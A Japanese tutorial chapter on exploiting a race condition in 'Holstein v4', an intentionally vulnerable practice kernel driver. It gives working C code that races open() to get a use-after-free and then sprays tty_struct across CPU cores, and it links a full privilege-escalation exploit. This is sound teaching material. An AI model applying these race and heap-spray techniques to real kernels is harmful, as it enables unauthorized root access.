


[前章](use_after_free.html)ではHolsteinモジュールのUse-after-Freeを悪用して権限昇格をしました。3度目の正直、Holsteinモジュールの開発者は3つ目のパッチでモジュールを修正し、Holstein v4を公開しました。開発者曰くもうこれ以上脆弱性はなく、今後はアップデートも停止するそうです。本章では、最終版のHolsteinモジュールv4をexploitしていきます。

## パッチの解析
最終版v4は[ここ](distfiles/LK01-4.tar.gz)からダウンロードできます。まずはv3との差分を見ていきましょう。
まず起動スクリプト`run.sh`ですが、マルチコアで動作するように変更されています。
```diff
-    -smp 1 \
+    -smp 2 \
```
プログラムの方は、メモリリークとUse-after-Freeが修正されています。
1つ目が`open`で、既に誰かがドライバを開いている際には変数`mutex`が1になり、`open`が失敗するように設計されています。
```c
int mutex = 0;
char *g_buf = NULL;

static int module_open(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_open called\n");

  if (mutex) {
    printk(KERN_INFO "resource is busy");
    return -EBUSY;
  }
  mutex = 1;

  g_buf = kzalloc(BUFFER_SIZE, GFP_KERNEL);
  if (!g_buf) {
    printk(KERN_INFO "kmalloc failed");
    return -ENOMEM;
  }

  return 0;
}
```
つまり、`open`中に再度ドライバを開くことはできなくなりました。開いているファイルディスクリプタを`close`すると`mutex`が0に戻り、再度`open`可能になります。
```c
static int module_close(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_close called\n");
  kfree(g_buf);
  mutex = 0;
  return 0;
}
```
脆弱性はどこにあるでしょうか？少し考えてみてください。

## Race Condition
今回のドライバの実装は完璧のように思えるかもしれませんが、実はまだ**複数のプロセスかリソースにアクセスする**という状況を完全に考慮できていません。
OSは複数のプロセス（スレッド）を同時に実行できるようにコンテキストスイッチを実装し、マルチスレッドで複数のプログラムを動かせるようにプロセスを管理しています。コンテキストスイッチが発生するタイミングは関数のような大きい粒度ではなく、アセンブリの命令単位での切り替え[^1]になります。当然、`module_open`関数の実行中にコンテキストが切り替わる可能性もあるわけです。
この章では、このようなマルチスレッド・マルチプロセスで発生する**競合**問題(Race Condition)を悪用して、exploitを書いていきます。

### 発生条件
まずは競合状態がどのような結果を生むかを考えます。例えば次のような実行順序でコンテキストが切り替わった場合を考えます。

<center>
  
</center>

初めに`mutex`には0が入っているのでスレッド1の条件分岐でジャンプが発生し、`g_buf`を確保するパスに到達します。さらに青色の命令で`g_buf`にアドレスが入ります。
次にコンテキストスイッチが発生して実行がスレッド2に切り替わります。スレッド2の段階では`mutex`に1が入っているため、条件分岐ではジャンプが発生せず、EBUSYを返すパスに到達して`open`が失敗します。
したがって、この例では`module_open`が開発者の期待した通りに動いています。
次に下の図の実行順序を考えます。

<center>
  
</center>

先程と同様にスレッド1では`g_buf`を確保するパスに到達します。しかし、今回は`mutex`に1を入れる前にコンテキストスイッチが発生します。
するとスレッド2の条件分岐の段階ではまだ`mutex`に0が入っているため、`g_buf`を確保するパスに到達します。そして青色の命令で`g_buf`に確保されたアドレスが入ります。
当然その後コンテキストスイッチが発生してスレッド1に実行が切り替わるのですが、スレッド1はバッファを確保して赤色の命令でアドレスを`g_buf`に保存します。
すると、どちらのスレッドでも`open`が成功してしまい、スレッド1が確保したアドレスが両方のスレッドから使える状態になることが分かります。

このように、カーネル空間のコードを設計する際は、常にマルチスレッドを考慮した設計にしないとバグが起きてしまいます。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
  　変数mutexの読み書きにatomicな演算を使わなかったことが原因で起きた競合だね。
  </p>
</div>

`open`が2回成功すると、片方に対して`close`が呼ばれても`g_buf`は解放されたポインタを指したままなので、前章と同様のUse-after-Freeが引き起こせます。

### 競合を成功させる
まずは`open`の競合が本当に可能かをコードを書いて調べましょう。
複数のスレッドで`open`を立て続けに呼べば簡単に競合は起きますが、競合が成功したことを判定しなければループを抜け出せません。競合の判定方法は様々ですが、基本的には2つのスレッドから`read`して、両方成功すれば競合に成功したと判断する方法が妥当でしょう。また、今回は無駄な`read`呼び出しを減らすため、ファイルディスクリプタを確認することにしました。というのも、2つのスレッドから`open`に成功した場合、かならずどちらかのファイルディスクリタは4になるはずです。
著者は以下のように、同じ関数を2スレッドで動かすことで競合状態を作れるRaceを書きました。もちろんメインスレッドでループしても構いませんし、競合状態の判定方法はみなさんの好きなように設計してください。なお、コンパイルオプションに`-lpthread`を付けて`libpthread`をリンクすることを忘れないように注意しましょう。
```c
void* race(void *arg) {
  while (1) {
    // どちらかのスレッドでfdが4になるまで競合を試みる
    while (!win) {
      int fd = open("/dev/holstein", O_RDWR);
      if (fd == 4) win = 1;
      if (win == 0 && fd != -1) close(fd);
    }

    // 相手スレッドが偶然行き違いでfdをcloseしていないことを確認
    if (write(3, "A", 1) != 1 || write(4, "a", 1) != 1) {
      // 失敗
      close(3);
      close(4);
      win = 0;
    } else {
      // 成功
      break;
    }
  }

  return NULL;
}

int main() {
  pthread_t th1, th2;

  pthread_create(&th1, NULL, race, NULL);
  pthread_create(&th2, NULL, race, NULL);
  pthread_join(th1, NULL);
  pthread_join(th2, NULL);

  char buf[0x400];
  int fd1 = 3, fd2 = 4;
  write(fd1, "Hello", 5);
  read(fd2, buf, 5);
  printf("%s\n", buf);

  return 0;
}
```
これでほぼ100%の確率でRaceに成功することが分かります。Race成功までにかかる時間もミリ秒単位で、primitiveとして十分に使えるものになりました。

<div class="column" title="コラム：競合状態とデータ競合">
  「競合状態(race condition)」と「データ競合(data race)」は似ている言葉ですが、2つの意味は違いますし、お互いを補完するような並列な言葉でもありません。<br>
  データ競合とは、メモリ中のある場所のデータを2つのスレッドが同時に（非同期に）アクセスする（少なくとも片方は書き込み）状態を指します。そのため、データ競合は未定義動作を引き起こします。データ競合は適切な排他制御やアトミック演算により解決できます。<br>
  一方で競合状態は、マルチスレッドの実行順序によって異なる結果が生まれる状態を指します。競合状態はロジックバグなどと同じで「プログラマがそう書いたからそう動いている」だけであり、予期しない動作(unexpected behavior)は起きますが未定義動作(unsound behavior)が起きることとは関係ありません。マルチスレッドによりプログラマの意図に反する結果が生まれれば、そのときは競合状態のバグがあると言えます。<br>
  今回のドライバには実装ミスによる競合状態があり、バッファのポインタにおけるデータ競合が発生します。
</div>

## CPUとHeap Spray
今回のようにマルチスレッドで競合のexploitを実装することは多々ありますが、この際に注意が必要なことがあります。
複数スレッドで競合状態を引き起こしているということは、攻撃時に複数のCPUコアが使われています。すると、当然どちらかのCPUコアから`module_open`が呼ばれて`kzalloc`でメモリ領域が確保されます。
ここで、以前Heap Overflowの章で説明した[SLUBアロケータ](heap_overflow#slub%E3%82%A2%E3%83%AD%E3%82%B1%E3%83%BC%E3%82%BF)の特徴を思い出してみましょう。SLUBアロケータではオブジェクト確保に使うslabをCPUごとのメモリ領域に管理しています。
つまり、今`main`関数が動いているスレッドと異なるCPUコアから確保された`g_buf`が`kfree`されると、当然確保時のCPUコアに対応するslabにリンクされます。すると、その後で`main`スレッドからHeap Sprayをしても、`kfree`された`g_buf`と被ることはありません。
したがって、今回のような状況では**複数スレッドでHeap Sprayを走らせる**ように注意しましょう。

また、`/dev/ptmx`を開くことで新たにファイルディスクリプタが作られますが、1つのプロセスが作れるファイルディスクリプタの数には限りがるので、大量のsprayが要るときは、sprayがヒットした時点で関係の無いファイルディスクリプタを閉じるといった工夫も必要です。
```c
void* spray_thread(void *args) {
  long x;
  long spray[800];

  for (int i = 0; i < 800; i++) {
    usleep(10);
    // tty_structのspray
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1) {
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void*)-1;
    }

    if (read(fd2, &x, sizeof(long)) == sizeof(long) && x) {
      // ヒット
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void*)spray[i];
    }
  }

  for (int i = 0; i < 800; i++)
    close(spray[i]);
  return (void*)-1;
}

...

  // Use-after-Freeの作成
  close(fd1);

  /* 複数コアでのHeap Spray */
  long victim_fd = -1;
  // メインスレッドで試す
  victim_fd = (long)spray_thread(NULL);
  // メインスレッドで失敗したらサブスレッドの結果を利用
  while (victim_fd == -1) {
    puts("[+] spraying on another CPU...");
    pthread_create(&th1, NULL, spray_thread, NULL);
    pthread_join(th1, (void*)&victim_fd);
  }
```

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
  　sched_setaffinity関数を使うと、スレッドが利用するCPUを制限できるから、コア数が増えても2コアの時と同じような挙動になるよ。
  </p>
</div>

## 権限昇格
あとはこれまで同様の手順で権限昇格するだけです。
データ競合によりUse-after-Freeを引き起こし、そこにHeap Sprayで`tty_struct`を載せるという一連の流れを関数にすると、複数回Use-after-Freeを起こすのが簡単に書けます。

サンプルのexploitは[ここ](exploit/race-krop.c)からダウンロードできます。

<center>
  
</center>

競合状態のexploitはデバッグが難しいため、最初の段階で理論を実現できるかと、高い確率で安定してraceを引き起こすようなprimitiveが作れるかがexploit開発の肝となります。

[^1]: CPUによっては最適化のために命令の実行順序が変わるといったさらに粒度の低い話もありますが、今回は関係ないので説明しません。

---

<div class="column" title="例題">
  qemu起動オプションでCPUのコア数を4や8に上げたとき、あなたの書いたexploitのraceやsprayがどの程度の確率で動くかを調べてみましょう。
  また、失敗確率が高い場合は、コア数に依存せずに高い確率で動くようなexploitに直してみましょう。
</div>
